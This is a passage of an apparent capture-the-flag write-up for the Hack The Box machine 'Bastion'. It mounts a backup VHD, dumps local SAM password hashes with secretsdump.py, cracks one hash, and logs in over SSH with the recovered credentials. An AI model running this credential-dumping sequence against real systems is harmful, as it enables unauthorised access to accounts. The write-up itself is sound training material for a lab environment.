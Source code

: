 Now it's time to mount them, before that make sure you have `libguestfs-tools` to mount virtual hard disk files on Linux.

```
root@w0lf:~/CTF/HTB/Boxes/Bastion/mount# guestmount --add ~/CTF/HTB/Boxes/Bastion/vhd/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro ~/CTF/HTB/Boxes/Bastion/mount/
root@w0lf:~/CTF/HTB/Boxes/Bastion/mount# ls
'$Recycle.Bin'   autoexec.bat   config.sys  'Documents and Settings'   pagefile.sys   PerfLogs   ProgramData  'Program Files'   Recovery  'System Volume Information'   Users   Windows
root@w0lf:~/CTF/HTB/Boxes/Bastion/mount# 
```

Found an user, but no user flag.
```
root@w0lf:~/CTF/HTB/Boxes/Bastion/mount/Users# ls
'All Users'   Default  'Default User'   desktop.ini   L4mpje   Public
root@w0lf:~/CTF/HTB/Boxes/Bastion/mount/Users# 
```

But I can see the `SAM` file.
```
root@w0lf:~/CTF/HTB/Boxes/Bastion/mount/Windows/System32/config# ls -la SAM
-rwxrwxrwx 1 root root 262144 Feb 22  2019 SAM
```
>What is SAM (Security Account Manager)?
The Security Account Manager is a database file in Windows XP, Windows Vista, Windows 7, 8.1 and 10 that stores users' passwords. It can be used to authenticate local and remote users.

I used `secretsdump.py` to dump the hashes.
```
root@w0lf:~/CTF/HTB/Boxes/Bastion/mount/Windows/System32/config# secretsdump.py LOCAL -system SYSTEM -sam ./SAM
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up... 
```

I used [Crackstation](https://crackstation.net/) to crack these hashes.


![cfd937ac9b3bab774eb4c9f81e9454ce.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bastion/2de94a1d1dd44cdfb1bf6c1b652b333e.png)

We got user `L4mpje` password. Since we got SSH on the box I tried login in SSH using these creds. `l4mpje : bureaulampje`


![6d67e8021e35dd4f454b7cd8e00b4245.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bastion/05ab52147f044eccb55db13c86974e21.png)


## Privilege Escalation:

